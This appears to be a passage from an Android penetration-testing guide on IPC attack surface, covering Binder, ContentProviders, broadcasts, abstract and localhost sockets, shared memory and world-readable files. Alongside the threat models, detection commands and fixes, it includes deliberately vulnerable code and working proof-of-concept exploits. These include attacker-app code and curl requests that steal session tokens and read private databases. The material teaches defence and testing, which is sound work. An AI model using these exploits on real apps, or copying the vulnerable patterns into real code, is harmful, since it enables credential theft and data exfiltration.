    private final Messenger messenger = new Messenger(handler);

    @Override public IBinder onBind(Intent intent) { return messenger.getBinder(); }
}
```

The security-relevant fact is that `Message` carries `sendingUid` (populated by the framework from
the Binder caller UID since API 21) and, since API 29, `sendingPid`. Almost nobody checks them.

**Threat model for Messenger:**

| Question | Answer |
|---|---|
| Who can reach it? | Anyone who can `bindService()` to the host Service |
| What does the attacker control? | `msg.what`, `msg.arg1/arg2`, `msg.obj` (if `Parcelable`), the whole `Bundle` in `msg.getData()`, and `msg.replyTo` |
| What stops them? | The host Service's `exported`/`permission`, plus a `msg.sendingUid` check you must write yourself |
| Classic failure | A command dispatcher on `msg.what` with a privileged case and no UID check |
| Extra hazard | `msg.replyTo` is an attacker-supplied `Messenger`; replying to it leaks data to whoever the attacker chose |

### 3.6 AIDL — typed RPC over Binder

**AIDL** (Android Interface Definition Language) is a code generator. You write an interface
description; the build produces a `Stub` (server side) and a `Proxy` (client side) that marshal
arguments into a `Parcel` and dispatch on an integer transaction code.

```java
// IBankService.aidl
interface IBankService {
    String getAccountNumber();          // transaction code 1
    void   transfer(String to, int amt); // transaction code 2
}
```

The generated `Stub.onTransact` is a `switch` on the transaction code. The generated `Proxy` writes
an *interface token* — a string identifying the interface — as the first item in every parcel, and
the `Stub` verifies it with `enforceInterface`. That token is an anti-confusion measure, not a
security control: an attacker can write the same token.

**Threat model for AIDL:**

| Question | Answer |
|---|---|
| Who can reach it? | Anyone who can bind to the hosting Service |
| What does the attacker control? | Transaction code and all marshalled arguments |
| What stops them? | Per-method `Binder.getCallingUid()` / `checkCallingPermission()` checks that you must write |
| Classic failure | The developer assumes "only our other app calls this", so `transfer()` has no caller check |
| Reverse-engineering note | The generated `Stub` is highly recognisable in JADX; Section 6 shows how to reconstruct the `.aidl` from it |

> **🔬 Under the Hood**
> `Stub.asInterface(IBinder)` first calls `queryLocalInterface()`. If the `IBinder` is a local object
> in the same process it returns the real implementation directly, with **no Binder transaction and
> no marshalling**. Cross-process, it wraps the handle in a `Proxy`. This is why a bug that only
> manifests with real marshalling (a `Parcel` size mismatch, for instance) never shows up in
> same-process unit tests.

### 3.7 ContentProviders — a structured data door

A `ContentProvider` publishes data under a `content://authority/path` URI. It is the only IPC
mechanism with a built-in, fine-grained, URI-level permission system — and also the one whose
misconfiguration is most consistently critical, because it usually sits directly on top of a
database.

Key controls, in order of how often they are wrong:

| Control | Meaning | Common mistake |
|---|---|---|
| `android:exported` | Reachable by other apps | Left `true`, or `targetSdk < 17` where the default is `true` |
| `android:readPermission` / `writePermission` | Permission required | Declared at `normal` protection level, which any app can hold |
| `android:permission` | Both read and write | Overridden by the more specific attributes and forgotten |
| `<path-permission>` | Per-path override | Used to *loosen* one path and accidentally opening the store |
| `android:grantUriPermissions` | Allows temporary per-URI grants | Set to `true` with `<grant-uri-permission android:pathPattern=".*"/>`, which grants everything |
| `openFile()` implementation | Serves a file for a URI | Concatenates the URI path onto a base directory — path traversal |
| `query()` implementation | Runs SQL | Concatenates `selection`, `projection` or `sortOrder` into SQL — injection |

**Threat model for ContentProviders:**

| Question | Answer |
|---|---|
| Who can reach it? | Any app, if exported without an effective permission; or any app that receives a URI grant |
| What does the attacker control? | The full URI (authority, path, query), `projection`, `selection`, `selectionArgs`, `sortOrder`, `ContentValues`, and the `call()` method name and arguments |
| What stops them? | `exported=false`, `signature`-level permissions, parameterised SQL, canonicalised file paths |
| Classic failures | SQL injection via `selection` or `sortOrder`; path traversal in `openFile`; over-broad `grantUriPermissions`; exposure of `/data/data/<pkg>/databases` |
| How to test | `content query --uri ...`, Drozer's `app.provider.*` modules, and manual `openFile` traversal probes |

Full treatment in [27-ContentProviders](../27-ContentProviders/README.md).

### 3.8 BroadcastReceivers — the notice board

A broadcast is a message delivered to zero or more receivers. Receivers are registered either in the
manifest (static) or at runtime with `registerReceiver` (dynamic).

Two directions of risk, and testers routinely consider only one.

**Receiving:** an exported receiver accepts an Intent from any app. If it acts on the contents —
"log the user out", "sync now with this URL", "apply this config" — that action is attacker-triggered.

**Sending:** an app that calls `sendBroadcast(intent)` with no receiver permission broadcasts to the
*whole device*. Any app can register for that action and read the extras. This is a data-leak
primitive that manifest-only analysis misses entirely, because the leak is in the sending code.

```java
// VULNERABLE — leaks the session token to every app on the device
Intent i = new Intent("com.example.app.SESSION_READY");
i.putExtra("token", sessionToken);
sendBroadcast(i);
```

```java
// FIXED — restrict to holders of a signature-level permission
sendBroadcast(i, "com.example.app.permission.INTERNAL");
// Better still, for purely in-app events, use LocalBroadcastManager or a flow/LiveData
```

**Threat model for broadcasts:**

| Question | Answer |
|---|---|
| Who can reach it (receive direction)? | Any app, for exported receivers; runtime receivers were implicitly exported before API 33 |
| Who can observe it (send direction)? | Any app that registers for the action, unless a receiver permission is set |
| What does the attacker control? | The whole Intent, and the *order* of delivery for ordered broadcasts — including the ability to `abortBroadcast()` and to rewrite the result |
| What stops them? | `exported=false`, `android:permission`, `setPackage()` on the sender, `LocalBroadcastManager`, `RECEIVER_NOT_EXPORTED` on API 33+ |
| Classic failures | Sending secrets in broadcast extras; a high-priority attacker receiver hijacking an ordered broadcast; acting on an unauthenticated "logout"/"reset" broadcast |

Full treatment in [29-BroadcastReceivers](../29-BroadcastReceivers/README.md).

### 3.9 UNIX domain sockets — the filesystem-named kind

> **📖 Definition**
> **UNIX domain socket.** A socket (a bidirectional communication endpoint) that connects two
> processes on the *same machine*. Unlike a TCP socket it has no IP address and no port; it is named
> either by a path in the filesystem (`/data/data/com.example/ipc.sock`) or by a string in the
> **abstract namespace** (Section 3.10). Data never leaves the kernel.

A filesystem-named UNIX socket appears as a special file. Access is governed by ordinary Linux
discretionary access control (owner, group, mode) *and* by SELinux. If an app creates its socket
inside its own private data directory, no other app can connect, because no other app can traverse
that directory. That is a genuinely safe design.

```java
// Target app — a filesystem-named socket inside the private data dir. Reasonable.
File sock = new File(getFilesDir(), "ipc.sock");
LocalServerSocket server = new LocalServerSocket(
        ParcelFileDescriptor.fromSocket(new java.net.Socket()).getFileDescriptor());
// In practice most apps use android.net.LocalSocket / LocalServerSocket,
// which default to the ABSTRACT namespace — see the next section.
```

The receiver can and should authenticate the peer:

```c
// Native side — obtain the connecting process's credentials from the kernel
struct ucred cred;
socklen_t len = sizeof(cred);
if (getsockopt(client_fd, SOL_SOCKET, SO_PEERCRED, &cred, &len) == 0) {
    // cred.uid, cred.gid, cred.pid are supplied by the KERNEL, not by the peer.
    // cred.uid is trustworthy; cred.pid is subject to the same reuse race as
    // Binder.getCallingPid() — see Section 3.21.
    if (cred.uid != expected_uid) { close(client_fd); return; }
}
```

**Threat model for filesystem UNIX sockets:**

| Question | Answer |
|---|---|
| Who can reach it? | Anyone whose UID/SELinux context permits `connect` on the socket inode |
| What does the attacker control? | Every byte of the protocol, once connected |
| What stops them? | Directory and file permissions, SELinux, and an `SO_PEERCRED` check |
| Classic failures | Creating the socket in a world-accessible directory; no `SO_PEERCRED` check; a hand-rolled binary protocol with a length field that is trusted |
| How to find it | `ls -l /proc/<pid>/fd`, `cat /proc/net/unix`, `lsof`, and `strings` for `.sock` in native libraries |

### 3.10 Abstract-namespace UNIX sockets — the underappreciated attack surface

This section deserves your full attention. It is one of the most reliably missed pieces of Android
attack surface, and it is present in a surprising number of real applications.

> **📖 Definition**
> **Abstract namespace.** A Linux extension to `AF_UNIX` sockets. If the first byte of
> `sun_path` in the `sockaddr_un` structure is a NUL byte (`\0`), the remainder is treated not as a
> filesystem path but as an opaque name in a **kernel-global namespace** that has no filesystem
> representation whatsoever. Conventionally these are written with a leading `@`, so
> `@com.example.ipc` means the abstract name `com.example.ipc`.

Read the consequence slowly, because it is the whole point:

**An abstract socket has no inode. It has no owner, no group, and no mode bits. There is nothing for
`chmod` to change and nothing for a directory permission to protect. Any process in the same network
namespace can `connect()` to it if it knows — or guesses — the name.**

On Android, all normal apps share the same network namespace. Therefore *every app on the device*
can connect to *every* abstract socket, subject only to SELinux policy, which for app-to-app abstract
socket connections is frequently permissive because the `untrusted_app` domain historically allowed
it broadly.

#### 3.10.1 Why this appears in so many apps

Because it is the path of least resistance in the Android SDK. The classes `android.net.LocalSocket`
and `android.net.LocalServerSocket` default to the abstract namespace:

```java
// Target app — the SDK's easiest option. This is ABSTRACT and world-reachable.
LocalServerSocket server = new LocalServerSocket("com.example.app.ipc");
while (true) {
    LocalSocket client = server.accept();     // ANY app on the device can be here
    handle(client);
}
```

A developer reading the Javadoc sees "LocalServerSocket — creates a new server socket listening at
the specified name" and reasonably assumes "local" implies "private". It does not. `LocalSocketAddress`
has three namespaces — `ABSTRACT`, `FILESYSTEM`, `RESERVED` — and `ABSTRACT` is the default in the
single-string constructor.

Common sources of abstract sockets on a real device:

| Source | Typical name pattern | Notes |
|---|---|---|
| Cross-platform runtimes and game engines | `@<pkg>_ipc`, `@unity_*` | Often a full command channel |
| Crash-reporting and analytics SDKs | `@<vendor>_crash_<pkg>` | Frequently accepts a "write this file" command |
| In-app debug/inspector servers | `@<pkg>_devtools`, `@chrome_devtools_remote` | The WebView inspector socket is the classic example |
| Music/media players and background daemons | `@<pkg>_player` | Control channel: play, seek, load URL |
| Multi-process apps talking to their own `:remote` process | `@<pkg>_worker` | Developer assumes only their own process connects |
| Native helper binaries spawned by the app | arbitrary | Usually the least defended |

> **⚠️ Warning**
> `@chrome_devtools_remote` deserves special mention. If an app enables
> `WebView.setWebContentsDebuggingEnabled(true)` — which many do unconditionally rather than gating
> on `BuildConfig.DEBUG` — the WebView opens an abstract socket exposing the Chrome DevTools
> Protocol. Anything that speaks that protocol gets full JavaScript execution inside the app's
> WebView, access to its DOM, its cookies and its `localStorage`. This is normally described as "you
> can attach `chrome://inspect` over USB", which sounds like a developer convenience. The socket is
> abstract, so a *malicious app on the device* can attach to it too. See
> [43-WebView](../43-WebView/README.md).

#### 3.10.2 What it looks like on the device

```bash
# adb shell — every UNIX socket on the system; abstract ones show a leading @
cat /proc/net/unix
```

```text
Num       RefCount Protocol Flags    Type St Inode Path
0000000000000000: 00000002 00000000 00010000 0001 01 123456 @com.example.app.ipc
0000000000000000: 00000002 00000000 00010000 0001 01 123478 @chrome_devtools_remote
0000000000000000: 00000002 00000000 00010000 0001 01 123499 /data/data/com.example.app/files/priv.sock
```

The `@` prefix in the `Path` column is the tell. Anything with `@` is world-reachable by default.

To attribute a socket to a process:

```bash
# adb shell as root — map the socket inode back to the owning process
for p in /proc/[0-9]*; do
  for fd in "$p"/fd/*; do
    ls -l "$fd" 2>/dev/null | grep -q "socket:\[123456\]" && echo "$p"
  done
done
```

A simpler route when you already have a PID:

```bash
# adb shell as root
ls -l /proc/$(pidof -s com.example.app)/fd | grep socket
```

And the complete, scripted version is in
[`scripts/enumerate-ipc-surface.sh`](scripts/enumerate-ipc-surface.sh).

#### 3.10.3 Exploiting one

From an attacker application, no permission is needed at all:

```java
// Attacker app — connect to a target's abstract socket. No permissions declared.
LocalSocket s = new LocalSocket();
s.connect(new LocalSocketAddress("com.example.app.ipc",
                                 LocalSocketAddress.Namespace.ABSTRACT));
OutputStream out = s.getOutputStream();
out.write("{\"cmd\":\"export_db\",\"dest\":\"/sdcard/leak.db\"}\n".getBytes("UTF-8"));
out.flush();
BufferedReader in = new BufferedReader(new InputStreamReader(s.getInputStream()));
Log.i("poc", "reply=" + in.readLine());
```

From a shell, with `nc` if the device has a usable one, or with a tiny Python script pushed to the
device. The most reliable route is a small native helper, because `nc` on Android often lacks
abstract-namespace support:

```python
#!/usr/bin/env python3
# Runs on the device via a pushed Python, or on the host against `adb forward`.
# Connect to an abstract-namespace UNIX socket: prefix the name with a NUL byte.
import socket
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect("\0com.example.app.ipc")     # <-- the leading \0 selects the abstract namespace
s.sendall(b'{"cmd":"ping"}\n')
print(s.recv(4096))
```

The full tool, including a name-bruteforcing mode, is
[`scripts/abstract-socket-probe.py`](scripts/abstract-socket-probe.py).

#### 3.10.4 The complete vulnerability write-up

**Vulnerable code:**

```java
// Target app, IpcServerThread.java — real-world shaped, deliberately vulnerable
public class IpcServerThread extends Thread {
    @Override public void run() {
        try {
            LocalServerSocket server = new LocalServerSocket("com.example.app.ipc");
            while (!isInterrupted()) {
                LocalSocket client = server.accept();
                BufferedReader r = new BufferedReader(
                        new InputStreamReader(client.getInputStream()));
                String line = r.readLine();
                JSONObject req = new JSONObject(line);
                switch (req.getString("cmd")) {
                    case "get_token":
                        // Hands the session token to whoever connected
                        client.getOutputStream().write(
                                Session.get().token().getBytes("UTF-8"));
                        break;
                    case "export_db":
                        // Copies the app's private DB anywhere the app can write
                        copy(getDatabasePath("app.db"),
                             new File(req.getString("dest")));
                        break;
                }
                client.close();
            }
        } catch (Exception e) { Log.e("ipc", "server", e); }
    }
}
```

**Why developers write this.** They need their main process and a `:remote` service process to
exchange data. AIDL feels heavy; a JSON-over-socket protocol is familiar from server work and takes
twenty minutes. `LocalServerSocket("name")` is the shortest thing that compiles. Nothing in the API,
the Javadoc, or the IDE warns that the name lives in a device-global namespace. The developer's
mental model is "this is my app's private channel", and nothing contradicts it during development,
because during development the only client *is* their own code.

**Exploit.** An attacker app with no permissions:

```java
// Attacker app — steal the session token and exfiltrate the database
LocalSocket s = new LocalSocket();
s.connect(new LocalSocketAddress("com.example.app.ipc",
                                 LocalSocketAddress.Namespace.ABSTRACT));
s.getOutputStream().write("{\"cmd\":\"get_token\"}\n".getBytes("UTF-8"));
byte[] buf = new byte[4096];
int n = s.getInputStream().read(buf);
String token = new String(buf, 0, n, "UTF-8");   // victim's session token
```

Or by shell, to prove reachability without writing an app:

```bash
# host — push the probe and run it
adb push scripts/abstract-socket-probe.py /data/local/tmp/
adb shell "cd /data/local/tmp && python3 abstract-socket-probe.py --name com.example.app.ipc --send '{\"cmd\":\"get_token\"}'"
```

> **⚠️ Warning**
> Running the probe from `adb shell` proves the *socket exists and speaks*, but `shell` is UID 2000
> with a different SELinux context from `untrusted_app`. To claim "any third-party app can do this"
> you must reproduce it from a real app. Build the attacker APK. This is the same discipline
> discussed in [77-UsefulCommands](../77-UsefulCommands/README.md) about `am start` and
> non-exported components.

**Detection — static.**

```bash
# host — after jadx or apktool
grep -rn "LocalServerSocket\|LocalSocketAddress\|Namespace.ABSTRACT" out/sources/
grep -rn "android/net/LocalServerSocket" out/smali*/
# native libraries: look for the abstract-socket idiom
for so in $(find . -name '*.so'); do
  strings -a "$so" | grep -E "^@|_ipc$|\.sock$" && echo "  ^ in $so"
done
```

In a native library the pattern to look for in disassembly is a `sockaddr_un` whose `sun_path[0]` is
set to zero before the name is copied to `sun_path + 1`, followed by `bind()` with an address length
of `offsetof(sockaddr_un, sun_path) + 1 + strlen(name)`.

**Detection — dynamic.**

```bash
# adb shell — the fastest check on a live device
cat /proc/net/unix | grep '@'
```

```bash
# adb shell as root — catch the socket being created
strace -f -e trace=socket,bind,connect -p $(pidof -s com.example.app) 2>&1 | grep -i unix
```

**Secure fix.**

```java
// FIXED — filesystem namespace inside the private data dir, plus a peer credential check.
// Belt and braces: even if the path were reachable, the uid check rejects the caller.
public final class SecureIpcServer extends Thread {
    private final int selfUid = android.os.Process.myUid();

    @Override public void run() {
        File path = new File(context.getFilesDir(), "ipc.sock");
        // Explicitly select the FILESYSTEM namespace.
        LocalSocketAddress addr =
                new LocalSocketAddress(path.getAbsolutePath(),
                                       LocalSocketAddress.Namespace.FILESYSTEM);
        LocalServerSocket server = new LocalServerSocket(addr.getName());
        while (!isInterrupted()) {
            LocalSocket client = server.accept();
            Credentials cred = client.getPeerCredentials();   // kernel-supplied
            if (cred.getUid() != selfUid) {                   // only our own UID
                client.close();
                continue;
            }
            handle(client);
        }
    }
}
```

Better still: **do not use sockets for app-internal IPC at all.** A bound `Service` with an AIDL or
`Messenger` interface, declared `android:exported="false"`, gets UID isolation from the platform
without any code on your part. If two processes of the same app must talk, that is exactly what a
non-exported bound service is for.

**Severity, honestly.** If the socket exposes secrets or privileged actions and is reachable from an
`untrusted_app` context: **High**, and **Critical** if it yields authentication material or arbitrary
file write. If it is reachable but the protocol only exposes benign data (a version string, a
heartbeat), it is **Low** and should be reported as a hardening item, not inflated. The determining
questions are always: *what does the protocol let me do*, and *can a real third-party app actually
connect under SELinux on the versions in scope?* Test both, on each Android version the client
supports.

### 3.11 Localhost network sockets — an app listening on 127.0.0.1

This is a close cousin of the abstract socket and appears just as often, usually for even weaker
reasons.

> **📖 Definition**
> **Loopback / localhost.** The virtual network interface `lo`, address `127.0.0.1` (IPv4) and `::1`
> (IPv6). Traffic to it never leaves the device. It is a *network* interface, so the ordinary
> network permission model applies: a process needs the `INTERNET` permission to create a socket at
> all.

The critical fact: **`INTERNET` is a `normal`-protection permission. It is granted at install time,
it is never shown to the user, and essentially every app on a device holds it.** Therefore
"listening only on localhost" is equivalent to "listening to every app on the device".

#### 3.11.1 Why apps do this

| Reason | Typical shape |
|---|---|
| Local media/HTTP server for a video player, so the player component can stream from a decrypted or proxied source | `http://127.0.0.1:8080/stream?id=...` |
| A local proxy for a VPN, ad-blocker, or content filter | port 8118, 1080, 9050 |
| A debug/inspection server left in a release build | port 8081 (React Native dev server), 5037, 6666 |
| A framework's dev-mode hot-reload server | Flutter/React Native/Cordova tooling |
| Cross-language bridge where the "server" half is a bundled native binary | arbitrary high port |
| A test hook the QA team asked for | `/debug/setUser?id=1` |

#### 3.11.2 Finding it

```bash
# adb shell — every listening socket with the owning process where visible
netstat -tulpn 2>/dev/null
# or, on newer builds
ss -tulpn
```

```bash
# adb shell — the raw source of truth, in hex; local_address 0100007F:1F90 is 127.0.0.1:8080
cat /proc/net/tcp
cat /proc/net/tcp6
```

Decoding `/proc/net/tcp` by hand is worth learning, because `netstat`'s process attribution is often
blank on Android without root. The `local_address` column is `IP:PORT` in hex, with the IP in
**little-endian** byte order: `0100007F` is `7F 00 00 01` reversed, i.e. `127.0.0.1`. `1F90` is
8080. The `uid` column tells you which app owns it, and `pm list packages --uid <uid>` maps that back
to a package name. `st` of `0A` means `TCP_LISTEN`.

```bash
# adb shell — map a listening socket's uid to a package
awk 'NR>1 && $4=="0A" {print $2, $8}' /proc/net/tcp
# then
cmd package list packages --uid 10199
```

#### 3.11.3 The complete vulnerability write-up

**Vulnerable code:**

```java
// Target app — a local HTTP control server, based on a pattern seen repeatedly in the wild
public class LocalControlServer extends NanoHTTPD {
    public LocalControlServer() { super(8081); }   // binds 0.0.0.0:8081 by default!

    @Override public Response serve(IHTTPSession session) {
        String uri = session.getUri();
        if (uri.equals("/token")) {
            return newFixedLengthResponse(Session.get().token());
        }
        if (uri.equals("/debug/setUser")) {
            String id = session.getParms().get("id");
            Session.get().switchUser(id);           // no authentication whatsoever
            return newFixedLengthResponse("ok");
        }
        if (uri.startsWith("/file")) {
            String p = session.getParms().get("path");
            return newChunkedResponse(Response.Status.OK, "application/octet-stream",
                                      new FileInputStream(p));   // arbitrary file read
        }
        return newFixedLengthResponse(Response.Status.NOT_FOUND, "text/plain", "no");
    }
}
```

Note the second problem hiding in the first line. `NanoHTTPD(int port)` binds to **all interfaces**,
not just loopback. On a device connected to a WiFi network, that server is reachable from the local
network as well as from every app on the device. The developer who wrote "it's only local" was wrong
twice.

**Why developers write this.** A local HTTP server is an extremely convenient bridge. It lets a
`WebView` load app-generated content over `http://` (so relative URLs and `XMLHttpRequest` behave
normally), it lets `MediaPlayer` or `ExoPlayer` consume a stream the app produces, and it lets the
QA team poke at internal state from a browser. Every one of those is a legitimate engineering need.
The failure is the assumption that loopback is a trust boundary. It is not: loopback is a *shared
bus*, and the `INTERNET` permission is the only ticket required to board it.

**Exploit.** From an attacker app, which needs only `INTERNET`:

```java
// Attacker app — AndroidManifest.xml needs only:
//   <uses-permission android:name="android.permission.INTERNET" />
URL u = new URL("http://127.0.0.1:8081/token");
HttpURLConnection c = (HttpURLConnection) u.openConnection();
String token = new BufferedReader(new InputStreamReader(c.getInputStream())).readLine();

// Arbitrary file read out of the victim's sandbox, using the victim's own file access:
URL f = new URL("http://127.0.0.1:8081/file?path=/data/data/com.example.app/databases/app.db");
InputStream db = ((HttpURLConnection) f.openConnection()).getInputStream();
```

And to demonstrate it in seconds during a test:

```bash
# adb shell
curl -s http://127.0.0.1:8081/token
curl -s "http://127.0.0.1:8081/file?path=/data/data/com.example.app/shared_prefs/session.xml"
```

If the port is bound to `0.0.0.0`, prove the network exposure as well:

```bash
# host — from your laptop on the same WiFi
curl -s http://<device-ip>:8081/token
```

**A second-order exploit worth knowing:** if the server serves content that a browser will render,
and the app's own `WebView` loads `http://127.0.0.1:8081/...`, then any web page the user visits in
*any* browser can also issue requests to that origin. Simple `GET` endpoints with side effects
(`/debug/setUser?id=1`) are then reachable by cross-site request forgery from a plain web page, with
no malicious app required at all. Check the server's CORS headers and whether it accepts requests
with an unexpected `Origin` or `Host` header — DNS rebinding against a localhost service is a real,
demonstrated class of attack.

**Detection — static.**

```bash
# host
grep -rnE "new ServerSocket|NanoHTTPD|ServerSocketChannel|bind\(.*127\.0\.0\.1|InetSocketAddress\(" out/sources/
grep -rn "Ljava/net/ServerSocket;-><init>" out/smali*/
# native
grep -rl "socket\|bind\|listen" --include='*.so' . | xargs -I{} sh -c 'strings -a {} | grep -Eq "0\.0\.0\.0|127\.0\.0\.1" && echo {}'
```

**Detection — dynamic.**

```bash
# adb shell — before launching, and again after
netstat -tulpn > /data/local/tmp/before.txt
monkey -p com.example.app -c android.intent.category.LAUNCHER 1
sleep 5
netstat -tulpn > /data/local/tmp/after.txt
diff /data/local/tmp/before.txt /data/local/tmp/after.txt
```

A Frida hook that catches the bind at the moment it happens is in
[`scripts/trace-ipc.js`](scripts/trace-ipc.js).

**Secure fix.**

```java
// FIXED — bind to loopback explicitly, use an ephemeral port, and require a
// per-session bearer token that never leaves the process except into the WebView.
public final class LocalServer extends NanoHTTPD {
    private final String secret;   // 32 bytes from SecureRandom, regenerated per launch

    public LocalServer(String secret) throws IOException {
        // InetAddress "127.0.0.1" + port 0 => loopback only, kernel-chosen port
        super("127.0.0.1", 0);
        this.secret = secret;
    }

    @Override public Response serve(IHTTPSession s) {
        String auth = s.getHeaders().get("authorization");
        if (auth == null || !MessageDigest.isEqual(
                auth.getBytes(UTF_8), ("Bearer " + secret).getBytes(UTF_8))) {
            return newFixedLengthResponse(Response.Status.FORBIDDEN, "text/plain", "");
        }
        // Reject requests whose Host header is not the loopback literal, to
        // defeat DNS rebinding from a browser.
        String host = s.getHeaders().get("host");
        if (host == null || !host.startsWith("127.0.0.1")) {
            return newFixedLengthResponse(Response.Status.FORBIDDEN, "text/plain", "");
        }
        return route(s);   // no debug endpoints in release builds
    }
}
```

The four elements that matter: **bind to `127.0.0.1` specifically**, **use an ephemeral port so the
address is not guessable**, **authenticate every request with a high-entropy per-launch secret**, and
**validate the `Host` header**. Remove debug routes with a build-type source set rather than an
`if (BuildConfig.DEBUG)` check, so the code is not present in the release DEX at all.

**Severity, honestly.** Unauthenticated localhost server exposing secrets or arbitrary file read:
**High** to **Critical**. Bound to `0.0.0.0` and therefore reachable from the local network:
escalate one level and note it prominently, because the attacker no longer needs to be on the device.
Localhost server that only serves already-public media bytes and has no side effects: **Low** —
report it as attack surface reduction, not as a vulnerability. Always state the port, the binding
address, and the exact request you used.

### 3.12 Shared files — the oldest IPC mechanism there is

Two processes that can both open the same file are communicating, whether or not they intend to.

| Location | Who can read | Notes |
|---|---|---|
| `/data/data/<pkg>/` | The app's UID only | The correct place for private data |
| `/data/data/<pkg>/` with mode 0777 | Anyone who can traverse the directory | `MODE_WORLD_READABLE` is dead, but native code can still `chmod` |
| `/sdcard/`, `/storage/emulated/0/` | Pre-scoped-storage: any app with `READ_EXTERNAL_STORAGE` | Post Android 10/11: mediated by MediaStore and SAF |
| `getExternalFilesDir()` | App-specific external dir; other apps cannot read it on API 29+ | Not private on older versions |
| `/data/local/tmp/` | `shell` UID; apps generally cannot | Where you push your tools |
| MediaStore collections | Any app with the relevant media permission | Images/video/audio; the modern shared surface |

The classic failure is a cache or log file written to external storage:

```java
// VULNERABLE — world-readable on pre-scoped-storage devices, and visible to any
// app with media/storage access on many configurations even now.
File f = new File(Environment.getExternalStorageDirectory(), "app_debug.log");
FileWriter w = new FileWriter(f, true);
w.write("auth response: " + rawJsonWithToken + "\n");
```

The fix is `getFilesDir()` for private data and a `FileProvider` with a temporary URI grant when a
file genuinely must be shared:

```java
// FIXED — share one file, to one app, for the duration of one Intent
File file = new File(getFilesDir(), "export.pdf");
Uri uri = FileProvider.getUriForFile(this, getPackageName() + ".fileprovider", file);
Intent share = new Intent(Intent.ACTION_SEND)
        .setType("application/pdf")
        .putExtra(Intent.EXTRA_STREAM, uri)
        .addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);   // read-only, time-limited
startActivity(Intent.createChooser(share, "Share"));
```

See [33-Storage](../33-Storage/README.md) for the full storage model.

### 3.13 Shared memory — ashmem and memfd

> **📖 Definition**
> **Shared memory.** A region of physical memory mapped into the address space of two or more
> processes, so that a write by one is immediately visible to the other with no copying and no
> syscall. It is the fastest IPC there is, and the one with the fewest built-in checks.

Android has two mechanisms:

**ashmem** (`/dev/ashmem`, Anonymous Shared Memory) is the legacy Android-specific implementation.
The Java-facing wrapper is `MemoryFile`, and the framework uses it for large `Bitmap`s, for
`Parcel`s that exceed the Binder buffer, and for `ContentProvider` cursor windows
(`CursorWindow` — every large query result you have ever read came through shared memory).

**memfd** (`memfd_create(2)`) is the modern Linux mechanism, used increasingly from Android 11
onwards as ashmem is deprecated. Its important feature is **sealing**: `fcntl(F_ADD_SEALS, ...)` can
permanently prevent a memfd from being shrunk, grown, or written to.

The security-relevant mechanics:

- A shared-memory region is referenced by a **file descriptor**. You share it by sending that FD to
  another process, which on Android means over Binder.
- Whoever holds the FD has whatever access the FD's mode allows. If you send a writable FD, the
  receiver can write.
- Because both sides see the same bytes at the same instant, **a check performed on the contents is
  not durable**: the sender can modify the memory after you validated it and before you used it.
  This is a time-of-check-to-time-of-use (TOCTOU) race, and it is the archetypal shared-memory bug.

```java
// VULNERABLE pattern — validate then use, on memory the peer can still write.
ParcelFileDescriptor pfd = intent.getParcelableExtra("shm");
FileDescriptor fd = pfd.getFileDescriptor();
MappedByteBuffer buf = new FileInputStream(fd).getChannel()
        .map(FileChannel.MapMode.READ_WRITE, 0, size);
int len = buf.getInt(0);
if (len > 0 && len <= MAX) {          // check
    byte[] out = new byte[len];
    buf.position(4);
    buf.get(out);                     // use — but `len` and contents may have changed
}
```

```java
// FIXED — copy out first, then validate the copy. Never re-read shared memory
// after validating it.
byte[] snapshot = new byte[size];
buf.position(0);
buf.get(snapshot);                     // single copy into private memory
int len = ByteBuffer.wrap(snapshot).getInt(0);
if (len < 0 || len > MAX || len + 4 > snapshot.length) { throw new SecurityException(); }
byte[] payload = Arrays.copyOfRange(snapshot, 4, 4 + len);
```

For a producer, seal the memfd so the consumer cannot be surprised, and never hand out a writable
mapping of a region you will later read for security decisions:

```c
// Native producer — create, fill, seal, then share the fd read-only.
int fd = memfd_create("payload", MFD_CLOEXEC | MFD_ALLOW_SEALING);
ftruncate(fd, size);
/* ... write contents ... */
fcntl(fd, F_ADD_SEALS, F_SEAL_SHRINK | F_SEAL_GROW | F_SEAL_WRITE);
/* now send fd over Binder; the receiver cannot change the contents or the size */
```

**Threat model for shared memory:**

| Question | Answer |
|---|---|
| Who can reach it? | Only a process you sent the FD to — but that includes anyone who received it transitively |
| What does the attacker control? | Every byte, at every instant, if the mapping is writable on their side |
| What stops them? | Sending a read-only FD, sealing a memfd, and copy-then-validate on the consumer |
| Classic failures | TOCTOU on a length or type field; trusting a size stored inside the shared region; sharing a whole `MemoryFile` when only a slice was needed |
| How to find it | `MemoryFile`, `SharedMemory` (API 27+), `ashmem`, `memfd_create` in code; `ls -l /proc/<pid>/fd` showing `/dev/ashmem` or `memfd:` entries; `/proc/<pid>/maps` |

### 3.14 SharedPreferences MODE_WORLD_READABLE — the historical hole

`SharedPreferences` is an XML file in `/data/data/<pkg>/shared_prefs/`. Historically,
`getSharedPreferences(name, MODE_WORLD_READABLE)` set the file mode to `0644`, and
`MODE_WORLD_WRITEABLE` to `0666`, making the file readable — or writable — by every app on the
device.

```java
// HISTORICAL AND DANGEROUS — throws SecurityException when targetSdk >= 24
SharedPreferences p = getSharedPreferences("session", Context.MODE_WORLD_READABLE);
p.edit().putString("auth_token", token).apply();
```

From `targetSdk` 24 (Android 7.0) these constants throw `SecurityException` at runtime. They are not
merely deprecated; they are inert. So why does this still matter?

1. **Apps with a low `targetSdk` still work.** An app targeting API 23 or lower on a modern device
   gets the old behaviour. Enterprise and OEM-preloaded apps in particular sometimes sit on very old
   target levels for years.
2. **Native code bypasses the check entirely.** The `SecurityException` lives in the Java framework.
   A `chmod("/data/data/<pkg>/shared_prefs/session.xml", 0644)` from JNI, or a `File.setReadable(true, false)`
   call, produces exactly the same exposure with no exception.
3. **The directory matters as much as the file.** If `/data/data/<pkg>/` itself is `0711` (the
   default) other apps cannot traverse it, which mitigates a world-readable file inside. But some
   apps `chmod 0755` their own data directory for a "sharing" feature and reopen the whole thing.

```java
// EQUIVALENT DANGER, no exception thrown, works on any version
File f = new File(getFilesDir(), "session.json");
f.setReadable(true, /* ownerOnly = */ false);   // 0644 — every app can read it
```

**Detection:**

```bash
# adb shell as root — the definitive check
ls -la /data/data/com.example.app/shared_prefs/
ls -ld /data/data/com.example.app/
find /data/data/com.example.app -perm -o+r -type f 2>/dev/null
```

```bash
# host — static
grep -rn "MODE_WORLD_READABLE\|MODE_WORLD_WRITEABLE\|setReadable(true, false)\|setWritable(true, false)" out/sources/
grep -rn "chmod" --include='*.c' --include='*.cpp' .
```

